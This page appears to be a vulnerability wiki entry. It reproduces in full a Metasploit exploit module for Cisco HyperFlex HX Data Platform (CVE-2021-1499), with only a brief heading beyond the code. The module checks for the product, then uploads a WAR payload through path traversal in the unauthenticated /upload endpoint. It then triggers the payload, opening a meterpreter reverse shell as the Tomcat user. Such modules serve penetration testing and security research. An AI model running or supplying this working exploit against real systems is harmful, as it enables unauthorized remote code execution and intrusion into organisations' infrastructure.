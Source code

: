 <languages /> <translate>

漏洞影響
--------

</translate>

    Cisco HyperFlex HX Data Platform

EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote

      Rank = ExcellentRanking

      prepend Msf::Exploit::Remote::AutoCheck
      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::FileDropper

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Cisco HyperFlex HX Data Platform unauthenticated file upload to RCE (CVE-2021-1499)',
            'Description' => %q{
              This module exploits an unauthenticated file upload vulnerability in
              Cisco HyperFlex HX Data Platform's /upload endpoint to upload and
              execute a payload as the Tomcat user.
            },
            'Author' => [
              'Nikita Abramov',      # Discovery
              'Mikhail Klyuchnikov', # Discovery
              'wvu',                 # Research and guidance
              'jheysel-r7'           # Metasploit Module
            ],
            'References' => [
              ['CVE', '2021-1499'], # HyperFlex HX File Upload
              ['URL', 'https://attackerkb.com/assessments/82738621-1114-4aba-990a-9ea007b05834']
            ],
            'DisclosureDate' => '2021-05-05',
            'License' => MSF_LICENSE,
            'Platform' => ['unix', 'linux'],
            'Arch' => [ARCH_X86, ARCH_X64, ARCH_JAVA],
            'Privileged' => false, # Privesc left as an exercise for the reader
            'Targets' => [
              [
                'Java Dropper',
                {
                  'Platform' => 'java',
                  'Arch' => ARCH_JAVA,
                  'Version' => Rex::Version.new('2.137'),
                  'Type' => :java_dropper,
                  'DefaultOptions' => {
                    'PAYLOAD' => 'java/meterpreter/reverse_tcp',
                    'WfsDelay' => 10
                  }
                }
              ],
              [
                'Linux Dropper',
                {
                  'Platform' => 'linux',
                  'Arch' => [ARCH_X86, ARCH_X64],
                  'Type' => :linux_dropper,
                  'DefaultOptions' => {
                    'PAYLOAD' => 'linux/x64/meterpreter/reverse_tcp',
                    'WfsDelay' => 10
                  }
                }
              ]
            ],
            'DefaultTarget' => 0,
            'Notes' => {
              'Stability' => [CRASH_SAFE],
              'Reliability' => [REPEATABLE_SESSION],
              'SideEffects' => [IOC_IN_LOGS, CONFIG_CHANGES, ARTIFACTS_ON_DISK]
            }
          )
        )
        register_options([
          OptString.new('TARGETURI', [true, 'Base path', '/']),
          OptString.new('UPLOAD_FILE_NAME', [false, 'Choose a filename for the payload. (Default is random)', rand_text_alpha(rand(8..15))])
        ])
      end

      def check
        # The homepage behind SSL indicates whether the endpoint is running Cisco HyperFlex
        # Installer:         <title>Hyperflex Installer</title>
        # Installed Product: <title>Cisco HyperFlex Connect</title>
        # Both the installer and installed product are vulnerable
        res_ssl = send_request_cgi(
          'method' => 'GET',
          'uri' => normalize_uri(target_uri.path),
          'rport' => 443,
          'SSL' => true
        )
        unless res_ssl && res_ssl.body[%r{<title>(?:Hyperflex Installer|Cisco HyperFlex Connect)</title>}]
          return Exploit::CheckCode::Safe
        end

        # The vulnerability, however, lies on the HTTP endpoint /upload.
        res = send_request_cgi(
          'method' => 'GET',
          'uri' => normalize_uri(target_uri.path, 'upload')
        )
        if res && res.code == 400 && res.body.include?('Apache Tomcat') && res.headers['Server'] && res.headers['Server'].include?('nginx')
          return Exploit::CheckCode::Appears
        elsif res && res.code == 404
          return CheckCode::Safe
        end

        CheckCode::Unknown
      end

      def prepare_payload(app_base, jsp_name)
        print_status('Preparing payload...')
        war_payload = payload.encoded_war({ app_name: app_base, jsp_name: jsp_name }).to_s
        fname = app_base + '.war'
        post_data = Rex::MIME::Message.new
        post_data.add_part(fname, nil, nil, 'form-data; name="fname"')
        post_data.add_part('/upload', nil, nil, 'form-data; name="uploadDir"')
        post_data.add_part(war_payload,
                           'application/octet-stream', 'binary',
                           "form-data; name=\"#{jsp_name}\"; filename=\"../../../lib/tomcat7/webapps/#{fname}\"")
        post_data
      end

      def upload_payload(post_data)
        print_status('Uploading payload...')
        res = send_request_cgi(
          'uri' => normalize_uri(target_uri.path, 'upload'),
          'method' => 'POST',
          'data' => post_data.to_s,
          'ctype' => "multipart/form-data; boundary=#{post_data.bound}"
        )
        if res && res.code == 200 && res.body.to_s =~ /result.*filename:/
          print_good('Payload uploaded successfully')
        else
          fail_with(Failure::UnexpectedReply, 'Payload upload attempt failed')
        end

        register_file_for_cleanup('/var/lib/tomcat7/crossdomain.xml.war')
        register_file_for_cleanup('/var/lib/tomcat7/crossdomain.xml/')
      end

      def execute_payload(url)
        print_status("Executing payload... calling: #{url}")
        res = send_request_cgi(
          'uri' => url,
          'method' => 'GET'
        )
        if res && res.code == 200
          print_good('Payload executed successfully')
        else
          fail_with(Failure::UnexpectedReply, 'Payload execution attempt failed')
        end
      end

      def exploit
        app_base = 'crossdomain.xml'
        jsp_name = datastore['UPLOAD_FILE_NAME']
        data = prepare_payload(app_base, jsp_name)
        upload_payload(data)
        sleep(datastore['WfsDelay'])
        if target.name == 'Java Dropper'
          url = normalize_uri(target_uri.path, app_base.to_s)
        else
          url = normalize_uri(target_uri.path, app_base.to_s, "#{jsp_name}.jsp")
        end
        execute_payload(url)
      end
    end